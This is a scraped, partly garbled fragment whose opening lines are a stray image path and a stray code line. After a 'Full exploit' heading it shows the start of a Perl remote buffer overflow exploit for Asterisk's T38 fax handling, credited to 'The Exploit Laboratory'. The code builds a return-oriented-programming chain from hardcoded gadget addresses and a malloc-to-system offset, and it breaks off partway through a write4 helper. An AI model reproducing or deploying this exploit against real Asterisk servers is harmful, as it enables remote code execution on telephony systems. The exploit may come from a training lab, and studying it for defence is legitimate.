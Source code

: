 ```
	                                           # null implicit
```

# Full exploit

```
#!/usr/bin/perl
# Remote Buffer Overflow in Asterisk T38 fax
# The Exploit Laboratory - TINYSPLOIT2

# 0.3:
# - improved pop eax

use IO::Socket;


$pop_eax = 0x08060f10; # 0x08060f10: pop eax; pop ebx; pop ebp; ret;
$pop_ebx = 0x0813c85c; # 0x0813c85c: pop ebx; ret;
$pop_edx = 0x0808db7e; # 0x0808db7e: pop edx; ret;

$mov_dedx_eax = 0x08112483; # 0x08112483: mov dword ptr [edx], eax; pop ebx; pop ebp; ret;
$ret = 0x08048af0;

$malloc_addr = 0x0815324c;
$malloc_to_system_offset = 0x39fc0;

$writeable_addr = 0x815e324;
$writeable_addr2 = 0x815e324-8;


# load immediate eax with value
sub load_eax {
	my ($eax) = @_;
	my $gadget = "";

	$gadget .= pack("V", $pop_eax);   # pop eax; ret
	$gadget .= pack("V", $eax);       # --> EAX
	$gadget .= pack("V", 0x44444444); # fake EBX
	$gadget .= pack("V", 0x44444444); # fake EBP
	return($gadget);
}


# writes value of eax to a specific memory address
sub write_mem_eax {
	my ($addr) = @_;
	my $gadget .= "";

	$gadget .= pack("V", $pop_edx);      # pop R1; ret
	$gadget .= pack("V", $addr);         # R1 = address
	$gadget .= pack("V", $mov_dedx_eax); # mov dword ptr [R1], eax; ret
	$gadget .= pack("V", 0x45454545);
	$gadget .= pack("V", 0x45454545);
	return($gadget);
}


# write4 - write any 4-byte value to any memory address
sub write4 {
	my ($addr, $data) = @_;
	my $gadget .= "";

```